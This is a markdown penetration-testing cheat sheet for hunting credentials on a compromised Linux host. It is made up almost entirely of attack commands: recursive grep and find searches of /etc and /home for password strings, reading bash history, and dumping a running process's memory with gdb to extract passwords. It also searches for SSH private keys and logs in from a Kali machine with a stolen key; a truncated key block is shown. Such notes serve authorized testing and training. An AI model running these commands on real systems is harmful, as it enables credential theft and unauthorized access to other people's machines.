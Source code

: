 ```yaml
---
category: Uncategorized
tags: []
---
```

#### Grep & Find
```bash - target
grep --color=auto -rnw '/etc' -ie "PASSWORD" --color=always 2> /dev/null
```

```bash - target
grep --color=auto -rnw '/etc' -ie "DBPASS" --color=always 2> /dev/null
```

```bash - target
grep --color=auto -rnw '/etc' -ie "PASS" --color=always 2> /dev/null
```

```bash - target
grep --color=auto -rnw '/etc' -ie "PWD" --color=always 2> /dev/null
```
- [ ] /etc

```bash - target
grep --color=auto -rnw '/home' -ie "PASSWORD" --color=always 2> /dev/null
```

```bash - target
grep --color=auto -rnw '/home' -ie "DBPASS" --color=always 2> /dev/null
```

```bash - target
grep --color=auto -rnw '/home' -ie "PASS" --color=always 2> /dev/null
```

```bash - target
grep --color=auto -rnw '/home' -ie "PWD" --color=always 2> /dev/null
```
- [ ] /home

Using Find:
```bash - target
find /etc -type f -exec grep -i -I "PASSWORD" {} 2> /dev/null \;
```

```bash - target
find /etc -type f -exec grep -i -I "DBPASS" {} 2> /dev/null \;
```

```bash - target
find /etc -type f -exec grep -i -I "PASS" {} 2> /dev/null \;
```

```bash - target
find /etc -type f -exec grep -i -I "PWD" {} 2> /dev/null \;
```
- [ ] /etc

```bash - target
find /home -type f -exec grep -i -I "PASSWORD" {} 2> /dev/null \;
```

```bash - target
find /home -type f -exec grep -i -I "DBPASS" {} 2> /dev/null \;
```

```bash - target
find /home -type f -exec grep -i -I "PASS" {} 2> /dev/null \;
```

```bash - target
find /home -type f -exec grep -i -I "PWD" {} 2> /dev/null \;
```
- [ ] /home

Locate in file names:
```bash - target
locate password | more
```

grep in bash history:
```bash - target
cat /home/user/.bash_history | grep -i "password"
```

#### Extracting passwords from memory (Privilege Escalation Techniques)
```bash - target
ps -ef
```

```bash - target
ps -ef | grep $SERVICE_NAME
```

```bash - target
gdb -p $PID
```

```bash - target
info proc mappings
```

```bash - target
dump memory $OUTPUT_FILE $START_ADDRESS $STOP_ADDRESS
```

```bash - target
strings /<OUTPUT_FILE> | grep passw
```

#### SSH Key Hunting
```bash - target
find / -iname authorized_keys 2> /dev/null
```

```bash - target
find / -iname id_rsa 2> /dev/null
```

>
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjE...4WBrYWxpAQI=
-----END OPENSSH PRIVATE KEY-----

Save found key into KALI file

```bash - kali
mousepad id_rsa
```

```bash - kali
chmod 600 id_rsa
```

```bash - kali
ssh -i id_rsa $USER@$TARGET
```


